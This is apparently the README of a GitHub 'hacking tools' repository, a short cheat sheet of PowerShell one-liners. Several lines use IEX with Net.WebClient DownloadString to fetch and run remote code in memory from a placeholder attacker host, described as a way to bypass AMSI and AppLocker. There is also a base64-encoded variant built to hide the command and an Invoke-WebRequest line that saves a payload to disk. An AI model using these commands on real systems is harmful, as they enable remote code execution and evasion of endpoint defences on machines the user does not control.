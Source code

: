 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded (run in linux)
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
